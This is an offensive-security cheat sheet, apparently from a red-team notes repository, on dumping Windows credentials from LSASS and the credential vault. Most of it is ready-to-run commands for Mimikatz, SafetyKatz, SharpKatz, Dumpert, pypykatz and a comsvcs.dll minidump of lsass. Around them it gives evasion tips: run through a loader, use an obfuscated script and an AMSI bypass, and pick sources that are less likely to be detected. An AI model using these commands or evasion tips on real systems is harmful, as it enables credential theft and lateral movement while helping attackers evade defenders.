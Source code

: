 # Credentials Dumping

## LSASS

{% hint style="warning" %}
High chances of detection. Always use the Loader.exe to use these. Otherwise, it will be detected by the defender.
{% endhint %}

Use [impacket ](https://github.com/fortra/impacket)if you are using a Linux machine as an attacker machine. Instead of Mimikatz a obfuscated version called **Invoke-Mimi.ps1**(inside _Tools_ folder) can be used too.

Some of the credentials can be extracted without touching **LSASS**:

* SAM Hive (Registry) - Local Admins (Try to avoid)
* LSA Secrets/Security Hive (Registry) - Service Account Passwords, Domain Cached Credentials (Maybe Detected)
* DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens (Best for secops)

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 


# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
# Used evasive-keys to bypass ASMI and has been edited in the source code
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```
